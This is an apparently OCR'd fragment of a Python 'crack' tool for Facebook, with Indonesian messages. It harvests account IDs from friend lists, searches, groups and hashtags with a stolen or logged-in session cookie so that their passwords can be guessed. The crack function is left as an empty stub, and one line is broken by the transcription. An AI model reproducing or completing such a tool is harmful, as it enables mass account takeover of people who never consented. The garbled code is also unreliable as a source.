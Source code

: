 				nxt = cek.find("div", id="see_more_pager").find("a")["href"]
				if "mbasic" in nxt:
					rep = "https://mbasic.facebook.com/"
				elif "free" in nxt:
					 = "https://free.facebook.com/"
				else:
					rep = "https://m.facebook.com/"
				self.Hashtag(nxt.replace(rep,""))
			return id
		except:
			return id

def crack(user, pas):
	# krek bagian sini tod

def menu():
	os.system("clear")
	config = open("config.cfg","r").read().replace("\n","").split("||")

	print("[!] Note: This tools not use API")
	print("[*] Name: "+config[1])
	print("[*] User: "+config[2])
	print("-"*40)
	print("""[01] Crack ID from friend list
[02] Crack ID public from friend
[03] Crack ID from search name
[04] Crack ID from group
[05] Crack ID from hashtag
[06] Read result
[00] Logout (Delete cookies)""")
	print("-"*40)
	pilih = input("[?] Select: ")
	while pilih == "" or not pilih.isdigit():
		pilih = input("[?] Select: ")
	if pilih in ["01","1"]:
		link = config[2]+"/friends"
		Dump(config[0]).listTeman(link)
	elif pilih in ["02","2"]:
		user = input("[*] username/ID: ").replace(" ",".").replace("/",".")
		cek = par(ses.get(url+user+"/friends", cookies={"cookie":config[0]}).text, "html.parser")
		print("[=] Dump from: "+cek.find("title").text)
		if "Halaman yang Anda minta tidak ditemukan." in str(cek):
			print("[!] User tidak ditemukan")
			input("[=] ENTER TO BACK HOME ..")
			menu()
		elif "Tidak Ada Teman Untuk Ditampilkan" in str(cek):
			print("[×] Teman tidak public!")
			input("[=] ENTER TO BACK HOME ..")
			menu()
		else:
			print("[!] CTRL + C to stop")
			Dump(config[0]).Public(user+"/friends")
	elif pilih in ["03","3"]:
		name = input("[?] Search query: ").replace(" ","+")
		print("[!] CTRL + C to stop")
		link = "search/people/?q="+name
		Dump(config[0]).Search(link)
	elif pilih in ["04","4"]:
		idg = input("[=] ID group: ")
		while idg == "" or not idg.isdigit():
			idg = input("[=] ID group: ")
		ged = par(ses.get(url+"browse/group/members/?id="+idg+"&start=0&listType=list_nonfriend_nonadmin&refid=18&_rdc=1&_rdr", cookies={"cookie":config[0]}).text, "html.parser")